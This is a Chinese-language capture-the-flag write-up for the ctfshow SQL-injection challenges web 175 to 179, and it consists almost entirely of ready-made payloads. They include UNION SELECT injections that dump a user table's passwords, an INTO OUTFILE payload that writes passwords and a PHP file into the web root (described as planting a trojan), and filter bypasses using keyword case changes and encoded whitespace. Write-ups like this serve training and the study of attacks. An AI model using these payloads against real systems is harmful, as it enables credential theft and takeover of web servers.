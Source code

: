 ```python
            break
```

解法二：将查询结果写进文件，或者写个木马进去

payload
```sql
# 将结果写到文件
-1'union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'%23
# 写马
-1'union select '1',"<?php phpinfo();?>" into outfile '/var/www/html/1.php'%23
```

## web 176

这题过滤了小写的‘select’，在sql中，关键字不区分大小写

payload

```sql
1'union SElect 1,2,password from ctfshow_user --+
```

## web 177

过滤了空格

常见绕过空格的方式

- `/**/`
- `%0a`
- `%0b`
- `%0c`
- `%0d`
- `%09`
- `(字段名)`

payload
```sql
1'union%09select%091,2,password%09from%09ctfshow_user%23
```

## web 178

过滤了`/**/`注释符，上一题payload还能用

```sql
1'union%09select%091,2,password%09from%09ctfshow_user%23
```

## web 179

%09被过滤了，%0c还能用

```sql
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```
